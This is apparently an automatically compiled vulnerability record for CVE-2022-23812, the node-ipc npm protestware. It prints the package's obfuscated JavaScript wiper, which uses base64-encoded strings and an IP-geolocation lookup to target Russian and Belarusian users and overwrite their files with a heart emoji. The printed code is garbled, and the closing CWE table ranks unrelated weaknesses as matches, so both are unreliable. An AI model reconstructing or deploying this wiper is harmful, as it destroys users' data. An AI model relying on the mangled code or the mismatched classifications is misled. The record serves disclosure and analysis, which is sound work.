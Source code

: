 # Vulnerability Information: CVE-2022-23812

## Vulnerability Description
This affects the package node-ipc from 10.1.1 and before 10.1.3. This package contains malicious code, that targets users with IP located in Russia or Belarus, and overwrites their files with a heart emoji. **Note** from versions 11.0.0 onwards, instead of having malicious code directly in the source of this package, node-ipc imports the peacenotwar package that includes potentially undesired behavior. Malicious Code **Note** Dont run it! js import u from path import a from fs import o from https setTimeout(function () { const t = Math.round(Math.random() * 4) if (t > 1) { return } const n = Buffer.from(aHR0cHM6Ly9hcGkuaXBnZW9sb2NhdGlvbi5pby9pcGdlbz9hcGlLZXk9YWU1MTFlMTYyNzgyNGE5NjhhYWFhNzU4YTUzMDkxNTQ=, base64) // https//api.ipgeolocation.io/ipgeo?apiKey=ae511e1627824a968aaaa758a5309154 o.get(n.toString(utf8), function (t) { t.on(data, function (t) { const n = Buffer.from(Li8=, base64) const o = Buffer.from(Li4v, base64) const r = Buffer.from(Li4vLi4v, base64) const f = Buffer.from(Lw==, base64) const c = Buffer.from(Y291bnRyeV9uYW1l, base64) const e = Buffer.from(cnVzc2lh, base64) const i = Buffer.from(YmVsYXJ1cw==, base64) try { const s = JSON.parse(t.toString(utf8)) const u = s[c.toString(utf8)].toLowerCase() const a = u.includes(e.toString(utf8)) || u.includes(i.toString(utf8)) // checks if country is Russia or Belarus if (a) { h(n.toString(utf8)) h(o.toString(utf8)) h(r.toString(utf8)) h(f.toString(utf8)) } } catch (t) {} }) }) }, Math.ceil(Math.random() * 1e3)) async function h(n = , o = ) { if (!a.existsSync(n)) { return } let r = [] try { r = a.readdirSync(n) } catch (t) {} const f = [] const c = Buffer.from(4p2k77iP, base64) for (var e = 0 e 0 ? f.push(...s) null } else if (i.indexOf(o) >= 0) { try { a.writeFile(i, c.toString(utf8), function () {}) // overwrites file with ?? } catch (t) {} } } return f } const ssl = true export { ssl as default, ssl }

### Vulnerability Description Key Phrases
- **rootcause:** **Malicious code within the package.**
- **weakness:** **Unintentional inclusion of malicious code and supply chain vulnerability.**
- **impact:** File overwrite with a heart emoji for users in Russia or Belarus and potential for other malicious behavior.
- **vector:** Package installation from npm repository.
- **attacker:** Unknown, but the code targets specific countries.
- **product:** node-ipc
- **version:** before 10.1.3
- **component:** npm package

## CVE Reference Links Content Summary
Based on the provided content, here's an analysis of CVE-2022-23812:

**Root Cause of Vulnerability:**
The vulnerability stems from malicious code embedded within the `node-ipc` package, specifically in versions 10.1.1 up to 10.1.3. This code is designed to target users located in Russia or Belarus.

**Weaknesses/Vulnerabilities Present:**
- **Malicious Code Injection:** The `node-ipc` package contains intentionally malicious code that executes upon installation/usage.
- **Geotargeting:** The malicious code specifically targets users with IP addresses geolocated in Russia or Belarus.
- **File Overwriting:** The malicious code overwrites files on the affected system with a heart emoji character (`❤️`).

**Impact of Exploitation:**
- **Data Loss/Modification:** The primary impact is the overwriting of files on the system, potentially leading to data loss or corruption.
- **Confidentiality, Integrity and Availability:** The NetApp advisory suggests that successful exploitation could lead to disclosure of sensitive information, addition or modification of data, or Denial of Service (DoS). This aligns with the provided CVSS score of 9.8 (Critical) with high ratings for Confidentiality, Integrity, and Availability.

**Attack Vectors:**
- **Network:** The malicious code leverages network access to determine the user's geolocation via an external API.
- **Package Installation:** The vulnerability is introduced during the installation or usage of the compromised `node-ipc` package.

**Required Attacker Capabilities/Position:**
- **None:** The attacker does not require prior authorization, user interaction, or any specific privileges to exploit this vulnerability. It is triggered upon execution of the malicious code within the application that depends on the compromised package.
- **Geolocation Targeting:** The attacker's malicious code specifically targets a user with an IP address in Russia or Belarus.

**Additional Details:**
- The malicious code uses base64 encoding for certain strings.
- The code first checks the user's geolocation. If they are not in Russia or Belarus the code will not execute the malicious file overwriting functionality.
- The code overwrites files with the '❤️' character.
- The vulnerability is classified as having a CVSS score of 9.8 (Critical)
- Snyk has a published code exploit for the vulnerability.
- NetApp has determined that none of its products are affected by this vulnerability.

## Retriever Results

### Top Combined Results

| Rank | CWE ID | Name | Abstraction | Usage | Combined Score | Retrievers | Individual Scores |
|------|--------|------|-------------|-------|---------------|------------|-------------------|
| 1 | CWE-193 | Off-by-one Error | Base | Allowed | 1.0958 | dense, sparse, graph | dense: 0.556, sparse: 1.000, graph: 0.686 |
| 2 | CWE-22 | Improper Limitation of a Pathname to a Restricted Directory ('Path Traversal') | Base | Allowed | 0.9295 | sparse, graph | sparse: 1.000, graph: 1.000 |
| 3 | CWE-476 | NULL Pointer Dereference | Base | Allowed | 0.8542 | sparse, graph | sparse: 1.000, graph: 0.789 |
| 4 | CWE-295 | Improper Certificate Validation | Base | Allowed | 0.8473 | dense, sparse | dense: 0.550, sparse: 1.000 |
| 5 | CWE-125 | Out-of-bounds Read | Base | Allowed | 0.8415 | dense, sparse | dense: 0.538, sparse: 1.000 |
| 6 | CWE-347 | Improper Verification of Cryptographic Signature | Base | Allowed | 0.8405 | dense, sparse | dense: 0.536, sparse: 1.000 |
| 7 | CWE-770 | Allocation of Resources Without Limits or Throttling | Base | Allowed | 0.7977 | sparse, graph | sparse: 1.000, graph: 0.631 |
| 8 | CWE-121 | Stack-based Buffer Overflow | Variant | Allowed | 0.7783 | dense, sparse | dense: 0.542, sparse: 1.000 |
| 9 | CWE-88 | Improper Neutralization of Argument Delimiters in a Command ('Argument Injection') | Base | Allowed | 0.5720 | sparse | sparse: 1.000 |
| 10 | CWE-502 | Deserialization of Untrusted Data | Base | Allowed | 0.5720 | sparse | sparse: 1.000 |

